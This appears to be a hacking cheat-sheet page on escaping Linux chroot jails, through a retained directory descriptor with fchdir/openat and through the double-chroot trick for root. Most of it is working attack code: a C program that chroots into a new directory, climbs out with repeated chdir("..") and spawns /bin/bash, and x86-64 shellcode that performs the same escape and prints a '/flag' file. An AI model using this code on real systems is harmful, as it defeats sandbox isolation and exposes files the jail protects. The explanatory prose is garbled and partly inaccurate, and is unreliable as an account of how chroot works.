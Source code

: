 # Escaping with fchdir

If there is an open fd for a dir that was opened before the chroot then u can use fchdir to change your dir to that one in the fd

Note: If u have an opened dir fd and can't use fchdir u can use openat if it's available

# Escaping with chroot

If you are root inside a chroot you can escape creating another chroot. This because 2 chroots cannot coexists (in Linux), so if you create a folder and then create a new chroot on that new folder being you outside of it, you will now be outside of the new chroot and therefore you will be in the FS.

This occurs because usually chroot DOESN'T move your working directory to the indicated one, so you can create a chroot but e outside of it.

```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void) {
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

```asm
    mov rax, 0x72696474
    mov rdi, 0x1337500
    mov [rdi], rax

    mov rax, 83
    mov rsi, 0x1c0
    syscall

    mov rax, 161        
    syscall

    mov r9, 0x0
change:
    add r9, 0x1
    mov rax, 80
    mov rdi, 0x1337550
    mov r8, 0x2e2e
    mov [rdi], r8
    xor r8, r8
    syscall
    cmp r9, 0x5
    jne change

    mov rdi, 0x1337551
    mov rax, 161
    syscall

    mov rax, 0x67616c662f
    mov rdi, 0x1337600
    mov [rdi], rax

    mov rax, 0x2
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov rdi, rax
    mov rsi, 0x1337900
    mov rdx, 0x100
    xor rax, rax
    syscall

    mov rax, 0x1
    mov rdi, 0x1
    syscall

```
